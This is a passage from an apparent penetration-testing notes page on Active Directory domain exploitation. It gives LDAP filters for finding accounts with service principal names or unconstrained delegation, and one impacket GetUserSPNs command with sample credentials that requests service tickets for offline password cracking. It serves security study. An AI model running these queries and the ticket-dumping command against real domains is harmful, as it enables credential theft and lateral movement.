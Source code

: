 ##

User Account Objects with SPNs[![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='1705'%3e%3cg data-evernote-id='1706' class='js-evernote-checked'%3e%3cpath d='M10 13a5 5 0 0 0 7.54.54l3-3a5 5 0 0 0-7.07-7.07l-1.72 1.71' data-evernote-id='1707' class='js-evernote-checked'%3e%3c/path%3e%3cpath d='M14 11a5 5 0 0 0-7.54-.54l-3 3a5 5 0 0 0 7.07 7.07l1.71-1.71' data-evernote-id='1708' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)](https://burmat.gitbook.io/security/hacking/domain-exploitation#user-account-objects-with-spns)

![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='1712'%3e%3cg data-evernote-id='1713' class='js-evernote-checked'%3e%3crect x='9' y='9' width='13' height='13' rx='2' ry='2' data-evernote-id='1714' class='js-evernote-checked'%3e%3c/rect%3e%3cpath d='M5 15H4a2 2 0 0 1-2-2V4a2 2 0 0 1 2-2h9a2 2 0 0 1 2 2v1' data-evernote-id='1715' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)Copy

119"(&(&(servicePrincipalName=*) (UserAccountControl:1.2.840.113556.1.4.803:=512)) (!(UserAccountControl:1.2.840.113556.1.4.803:=2)))"

120​

121## if you get valid domain credentials, you can dump them w/ impacket for offline cracking:

122python GetUserSPNs.py -request burmat.co/svc-burmat:burmat123$

##

User and Computers with Unconstrained Delegation[![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='1737'%3e%3cg data-evernote-id='1738' class='js-evernote-checked'%3e%3cpath d='M10 13a5 5 0 0 0 7.54.54l3-3a5 5 0 0 0-7.07-7.07l-1.72 1.71' data-evernote-id='1739' class='js-evernote-checked'%3e%3c/path%3e%3cpath d='M14 11a5 5 0 0 0-7.54-.54l-3 3a5 5 0 0 0 7.07 7.07l1.71-1.71' data-evernote-id='1740' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)](https://burmat.gitbook.io/security/hacking/domain-exploitation#user-and-computers-with-unconstrained-delegation)

![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='1744'%3e%3cg data-evernote-id='1745' class='js-evernote-checked'%3e%3crect x='9' y='9' width='13' height='13' rx='2' ry='2' data-evernote-id='1746' class='js-evernote-checked'%3e%3c/rect%3e%3cpath d='M5 15H4a2 2 0 0 1-2-2V4a2 2 0 0 1 2-2h9a2 2 0 0 1 2 2v1' data-evernote-id='1747' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)Copy

123# user:

124"(&(&(objectCategory=person) (objectClass=user)) (userAccountControl:1.2.840.113556.1.4.803:=524288))"

125​
126# computer:

127"(&(objectCategory=computer) (objectClass=computer) (userAccountControl:1.2.840.113556.1.4.803:=524288))"

##

Domain Administrators[![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='1772'%3e%3cg data-evernote-id='1773' class='js-evernote-checked'%3e%3cpath d='M10 13a5 5 0 0 0 7.54.54l3-3a5 5 0 0 0-7.07-7.07l-1.72 1.71' data-evernote-id='1774' class='js-evernote-checked'%3e%3c/path%3e%3cpath d='M14 11a5 5 0 0 0-7.54-.54l-3 3a5 5 0 0 0 7.07 7.07l1.71-1.71' data-evernote-id='1775' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)](https://burmat.gitbook.io/security/hacking/domain-exploitation#domain-administrators)
